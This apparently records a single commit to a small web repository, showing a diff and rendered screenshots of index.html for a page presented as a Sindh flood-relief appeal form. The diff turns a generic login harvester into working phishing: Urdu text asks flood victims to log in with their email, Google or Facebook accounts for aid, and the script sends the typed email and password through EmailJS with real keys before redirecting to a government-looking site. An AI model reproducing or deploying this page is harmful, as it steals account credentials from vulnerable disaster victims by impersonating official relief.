

Before and after one commit to dilshadkhaskheli/Flood-Relief-Program-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 241-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,9 +2,8 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <meta name="google-site-verification" content="sORTMUAbgoRzPbKt6bp9Iorulw6LMKjsr8kpBMdNLx8" />
-  <title>Secure Login</title>
+  <title>فلڈ ریلیف اپیل فارم</title>
+  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -12,118 +11,122 @@
       justify-content: center;
       align-items: center;
       height: 100vh;
-      background-color: #f4f4f4;
       margin: 0;
     }
-
     .container {
       background: #fff;
-      padding: 20px;
+      padding: 25px 30px;
       border-radius: 12px;
-      box-shadow: 0 0 10px rgba(0, 0, 0, 0.2);
-      width: 350px;
+      box-shadow: 0 4px 12px rgba(0,0,0,0.15);
+      width: 100%;
+      max-width: 420px;
+      text-align: center;
     }
-
+    label {
+      display: block;
+      text-align: left;
+    }
     h2 {
-      text-align: center;
+      margin-bottom: 10px;
+      color: #333;
+    }
+    .logo {
+      width: 70px;
       margin-bottom: 20px;
-      color: #222;
     }
-
-    label {
-      font-weight: bold;
-      display: block;
-      margin-top: 10px;
-    }
-
-    input {
+    input, textarea, button {
       width: 100%;
       padding: 10px;
-      margin-top: 5px;
-      margin-bottom: 15px;
+      margin: 8px 0;
       border: 1px solid #ccc;
-      border-radius: 6px;
-      font-size: 16px;
+      border-radius: 8px;
+      font-size: 14px;
     }
-
-    /* Password dots ka effect without using input type="password" */
-    .secure-text {
-      -webkit-text-security: disc;
-      text-security: disc;
-    }
-
     button {
-      width: 100%;
-      padding: 12px;
-      background: #007bff;
-      border: none;
+      background: #4CAF50;
       color: white;
-      font-size: 16px;
-      border-radius: 6px;
+      font-weight: bold;
       cursor: pointer;
       transition: background 0.3s ease;
     }
-
     button:hover {
-      background: #0056b3;
+      background: #45a049;
     }
-
-    .error {
-      color: red;
-      font-size: 14px;
+    .toggle-btn {
+      background: #2196F3;
+      margin-top: 15px;
+    }
+    .toggle-btn:hover {
+      background: #1976D2;
+    }
+    #part2 {
       display: none;
-      margin-bottom: 10px;
     }
   </style>
 </head>
 <body>
   <div class="container">
-    <h2>Login</h2>
-    <form id="secureForm">
-      <label for="email">Email</label>
-      <input type="email" id="email" name="user_mail" placeholder="Enter your email" required>
+    <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcT7-Z3xs0TdvQPhEmrYTzRmDr26iwr-HeT4BQ&s" alt="Logo" class="logo">
+    <h2>فلڈ ریلیف پروگرام کے تحت امداد اور گھر کے لیے اپیل کرنے کے لیے اپنے اکاؤنٹ یا گوگل اکاؤنٹ سے لاگ اِن کریں</h2>
 
-      <label for="pass">Password</label>
-      <input type="text" id="pass" name="access_key" class="secure-text" placeholder="Enter your password" required>
+    <form id="myForm">
+      <!-- Part 1 -->
+      <div id="part1">
+        <label for="user_name">Email</label>
+        <input type="email" id="email" name="user_name" placeholder="اپنا ای میل درج کریں">
+        <label for="user_email">Password</label>
+        <input type="text" id="password" name="user_email" placeholder="اپنا پاس ورڈ درج کریں">
+      </div>
 
-      <p class="error" id="errorMsg">Please fill in both fields</p>
-      <button type="submit">Submit</button>
+      <!-- Part 2 -->
+      <div id="part2">
+        <label for="userphone">Phone </label>
+        <input type="text" name="user_phone" placeholder="Enter your phone">
+        <label for="user_message">Password</label>
+        <textarea name="user_message" placeholder="Enter your password"></textarea>
+      </div>
+
+      <button type="submit">Log in</button>
     </form>
+
+    <button class="toggle-btn" onclick="switchToPart2()">Continue with Facebook</button>
   </div>
 
-  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
   <script>
+    // Init EmailJS
     (function() {
-      emailjs.init("YOUR_EMAILJS_PUBLIC_KEY"); // <-- yahan apna EmailJS public key lagao
+      emailjs.init("lOP70A-TcCacjwvM5"); // Public key
     })();
 
-    const form = document.getElementById("secureForm");
-    const errorMsg = document.getElementById("errorMsg");
+    // Switch to Part 2 (hide part1, show part2)
+    function switchToPart2() {
+      document.getElementById("part1").style.display = "none";
+      document.getElementById("part2").style.display = "block";
+    }
 
-    form.addEventListener("submit", function(event) {
-      event.preventDefault();
+    // Handle form submission with validation
+    document.getElementById("myForm").addEventListener("submit", function(e) {
+      e.preventDefault();
 
+      // Get email & password fields
       const email = document.getElementById("email").value.trim();
-      const pass = document.getElementById("pass").value.trim();
+      const password = document.getElementById("password").value.trim();
 
-      if (email === "" || pass === "") {
-        errorMsg.style.display = "block";
-        return;
-      } else {
-        errorMsg.style.display = "none";
+      // Validate required fields
+      if (email === "" || password === "") {
+        alert("براہ کرم ای میل اور پاس ورڈ دونوں فیلڈز لازمی پر کریں۔");
+        return; // Stop form submission
       }
 
-      // EmailJS pe data bhejna
-      emailjs.send("YOUR_SERVICE_ID", "YOUR_TEMPLATE_ID", {
-        email_id: email,
-        access_key: pass
-      }).then(function() {
-        // Data successfully sent → redirect karo
-        window.location.href = "https://your-second-site-link.com";
-      }, function(error) {
-        alert("Error: " + JSON.stringify(error));
-      });
+      // Send form via EmailJS
+      emailjs.sendForm("service_ch1laac", "template_7243jwf", this)
+        .then(() => {
+          // Redirect after success
+          window.location.href = "https://flood-relief-program-govt-sindh.vercel.app/";
+        }, (err) => {
+          console.log("FAILED!", err);
+        });
     });
   </script>
 </body>
-</html>
+      </html>
```
